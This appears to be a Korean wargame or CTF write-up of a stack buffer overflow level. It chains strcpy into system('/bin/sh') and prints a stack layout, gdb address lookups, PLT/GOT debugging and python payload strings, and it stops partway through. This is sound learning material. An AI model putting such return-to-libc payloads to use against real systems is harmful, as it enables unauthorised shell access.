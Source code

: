 ### Solution

첫 리턴은 strcpy로 고정되어 있고 strcpy의 ret는 "AAAA"로 변환되어 있다.

이를 첫 리턴인 strcpy를 이용해서 strcpy의 ret을 system으로 만들고 system의 인자를 /bin/sh로 바꾸면 된다.

``` notepad
               |    mean    |   value   |
-------------------------
buffer + 44    |  first ret |  strcpy 고정
-----------------------------------------
buffer + 48    | second ret | AAAA -> system
-----------------------------------------
buffer + 52    |strcpy 인자1| buffer+48
-----------------------------------------
buffer + 56    |strcpy 인자2| buffer  --> system 인자1 /bin/sh 주소
-----------------------------------------
```

strcpy(buffer+48, buffer) 가 실행되고 buffer+48은 system 주소로 buffer+56이 /bin/sh 주소로 바뀌기 위해서 argv[1]은 다음과 같이 구성해야한다.

system 주소 + "AAAA" + /bin/sh 주소 + "A"*32 + strcpy 주소 + "AAAA" + (buffer+48) 주소 + buffer 주소

이렇게 payload를 구성하면 strcpy(buffer+48, buffer) -> system("/bin/sh") 의 순서로 프로그램이 진행될 것이다.

필요한 주소는 다음과 같다.

``` gdb
(gdb) print system
$1 = {<text variable, no debug info>} 0x40058ae0 <__libc_system>
(gdb) print strcpy
$2 = {char *(char *, char *)} 0x400767b0 <strcpy>

0x400fbff9 = /bin/sh
```

`python -c 'print "\xe0\x8a\x05\x40" + "AAAA" + "\xf9\xbf\x0f\x40" + "A"*32 + "\xb0\x67\x07\x40" + "AAAA" + "CCCC" + "CCCC"'`

이렇게 gdb를 실행하면 You must fall in love with strcpy() 에러 메시지를 출력하고 종료된다. 이를 해결하기 위해 memcmp 에 BP를 걸고 테스트해보면 strcpy의 주소가 0x400767b0이 아닌 0x08048410임을 확인할 수 있다. 이는 PLT, GOT 개념의 strcpy 주소이다. 자세한 plt, got 개념 설명은 생략하겠다.

``` gdb
(gdb) x/3i 0x08048410
0x8048410 <strcpy>:	jmp    *0x8049878
0x8048416 <strcpy+6>:	push   $0x40
0x804841b <strcpy+11>:	jmp    0x8048380 <_init+48>
```

즉 strcpy@plt 는 0x8048410이고 got는 0x08049878이다. strcpy를 처음 실행할때 *0x08049878 = 0x08048416일 것이며 한번 실행된 뒤에는 *0x08049878 = 0x400767b0이 될 것이다.

payload를 수정하면

`python -c 'print "\xe0\x8a\x05\x40" + "AAAA" + "\xf9\xbf\x0f\x40" + "A"*32 + "\x10\x84\x04\x08" + "AAAA" + "CCCC" + "CCCC"'` 이고 이를 통해 buffer의 주소를 구하면
